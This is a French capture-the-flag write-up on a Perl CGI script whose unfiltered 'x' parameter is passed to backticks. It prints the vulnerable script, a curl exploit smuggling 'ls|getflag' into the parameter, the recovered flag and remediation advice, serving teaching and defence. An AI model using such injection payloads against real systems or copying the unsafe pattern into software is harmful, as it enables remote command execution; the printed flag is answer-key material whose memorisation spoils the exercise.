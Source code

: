 # Rapport de Vulnérabilité : Injection de commande dans un script Perl via un paramètre non filtré

## Description

Dans ce niveau, un script Perl accessible sur le port `4747` contient une faille critique d’exécution de commande. Le paramètre `x`, passé via une requête HTTP, est directement injecté dans une commande système sans aucun filtrage. Cela permet à un attaquant d’exécuter arbitrairement des commandes sur le système via une simple requête `curl`.

## Comment Exploiter la Faille

### Étape 1 : Analyse du script Perl

Contenu du script `level04.pl` :

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Le script récupère le paramètre `x` et l’insère directement dans une commande système `echo`, sans échappement ni validation.

### Étape 2 : Compréhension de la faille

La ligne vulnérable est :

```perl
print `echo $y 2>&1`;
```

En Perl, les backticks (`` ` ``) exécutent une commande système.
Si l’on fournit une valeur comme `ls|getflag` dans le paramètre `x`, on injecte une commande supplémentaire (`getflag`), exécutée immédiatement après `ls`.

### Étape 3 : Exploitation avec `curl`

On exploite la faille avec une requête HTTP locale :

```bash
curl "http://localhost:4747/?x=ls|getflag"
```

Le `|` permet d’exécuter `getflag` après `ls`. Comme aucune protection n'est mise en place, la commande est acceptée et exécutée.

### Étape 4 : Récupération du flag

Le flag est affiché directement dans la réponse HTTP :

```
ne2searoevaevoem4ov4ar8ap
```

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Ne jamais exécuter directement des entrées utilisateur** dans des appels système (\`\`, system(), exec()…).
* **Utiliser des fonctions sécurisées** : En Perl, il est préférable d’utiliser des appels à des commandes avec des listes, ou mieux, d’éviter complètement l’exécution de commandes système.
* **Filtrer et échapper tous les paramètres** : Valider le contenu attendu (liste blanche) avant tout traitement.

## Conclusion

Cette faille classique d'injection de commande permet à un attaquant d’exécuter arbitrairement des commandes sur le système à distance, via un simple paramètre HTTP. Ce genre d’erreur illustre l’importance de **ne jamais faire confiance à une entrée utilisateur**, même dans un script local ou interne.

---